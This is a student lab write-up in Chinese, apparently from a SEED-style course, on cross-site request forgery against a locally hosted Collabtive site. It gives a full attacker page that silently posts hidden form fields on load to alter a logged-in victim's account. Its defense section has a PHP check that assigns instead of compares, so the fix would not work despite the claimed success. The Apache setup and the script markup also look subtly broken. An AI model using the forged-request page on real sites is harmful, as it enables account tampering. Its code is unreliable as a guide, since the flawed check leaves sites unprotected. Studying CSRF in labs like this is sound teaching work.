 ```yaml
---
layout: post
title: 跨站请求伪造攻击
---
```


_Dong 2015210938_

_2016.04.23_

## CSRF:跨站请求伪造攻击

### 攻击简介
在网络环境中，用户使用单个浏览器浏览可信任网页，攻击者利用恶意网站以受害用户的身份向可信任网站发起恶意请求。

### 实验原理
在用户使用账号密码登陆到可信任站点后，受信任站点会在web浏览器存储cookie，并且在接下来的操作中不需要进行身份验证。这样恶意网站就可以使用脚本通过浏览器提交恶意请求到受信任站点，因为之前已经进行过了身份验证，受信任站点接受恶意请求操作。

### 实验步骤

#### 配置网站
首先启动apache2和mysql_safe，让本地服务器启动起来。

	sudo service apache2 start
	sudo mysqld_safe

并且配置DNS域名解析，将模拟域名都解析到本地，添加一下内容到`/etc/hosts`中

	127.0.0.1	www.heyheyattacker.com
	127.0.0.1	www.heyheynormal.com

并且在`/etc/apache2/conf.d/lab1.conf`和`/etc/apache2/conf.d/lab2.conf`中分别配置网站

	<VirtualHost *:80>
		ServerName http://www.heyheyattacker.com
		DocumentRoot /var/www/CSRF/Attacker/
	</VirtualHost>


	<VirtualHost *:80>
		ServerName http://www.heyheyattacker.com
		DocumentRoot /var/www/CSRF/Attacker/
	</VirtualHost>


#### **攻击**
在攻击者的服务器里制作个攻击网页。其中包含提交恶意申请的javascript脚本。
将以下内容的作为文件`index.html`保存在`/var/www/CSRF/Attacker`中：

	<html><body><h1>
	This page forges an HTTP POST request.
	</h1>
	
	function post(url,fields)
	{
	//create a <formelement.
	var p = document.createElement('form');
	//construct the form
	p.action = url;
	p.innerHTML = fields;
	p.target = '_self';
	p.method = 'post';
	//append the form to the current page.
	document.body.appendChild(p);
	//submit the form
	p.submit();
	}
	function csrf_hack()
	{
	var fields;
	// The following are form entries that need to be filled out
	// by attackers. The entries are made hidden, so the victim
	// won't be able to see them.
	fields += "<input type='hidden' name='name' value='peter'>"; //修改用户名
	fields += "<input type='hidden' name='userfile' value=''>";  
	fields += "<input type='hidden' name='company' value='seed'>";  //修改公司名
	post('http://www.heyheynormal.com/manageuser.php?action=edit',fields);
	}
	// invoke csrf_hack() after the page is loaded.
	window.onload = function() { csrf_hack(); }
	
	</body></html>

其中`csrf_hack()`函数中的：

	fields += "<input type='hidden' name='name' value='peter'>"; //修改用户名
	fields += "<input type='hidden' name='userfile' value=''>";  
	fields += "<input type='hidden' name='company' value='seed'>";  //修改公司名
	post('http://www.heyheynormal.com/manageuser.php?action=edit',fields);

即为提交恶意请求的关键。

实验结果：在用户登录之后，访问`www.heyheyattacker.com`。用户的账号信息被更改，用户名被更改为`peter`，公司改为`seed`。

在打开`www.heyheyattacker.com`之后，用户的信息便被修改。

#### **防御**
可以通过添加伪随机数的方法来防御跨站攻击。

实验中通过将document.cookie提交给要访问的可信任站点，并在之后的操作中可信任站点都对这个值进行验证，如果攻击者不能窃取可信任网站的cookie则在提交恶意请求时，不能通过可信任站点的有效验证，则攻击失效。

在可信任网页`/var/www/CSRF/Collabtive/templates/standard/edituserform.tpl`提交POST时提交一个隐藏的input，值为`document.cookie`。

而后可信任站点在接受到请求后在`manageuser.php`中对值进行验证

	...
	$sid = getArrayVal($_POST, "sid");
	...
	if($_COOKIE["PHPSESSID"]=$sid)
	...

实验结果：再次访问`www.heyheyattacker.com`并不能对用户信息进行更改。

### 实验思考
CSRF攻击利用的是，用户在进行登录验证之后，和可信任站点交互不会再进行相互认证这个漏洞。因此只要想法在用户登录之后能有信息似的用户和可信任站点之间能够相互验证，并且在攻击者不能获得这份信息的前提下，就能有效避免这类攻击，就像这里的cookie信息。


----------
实验来自`实验楼`

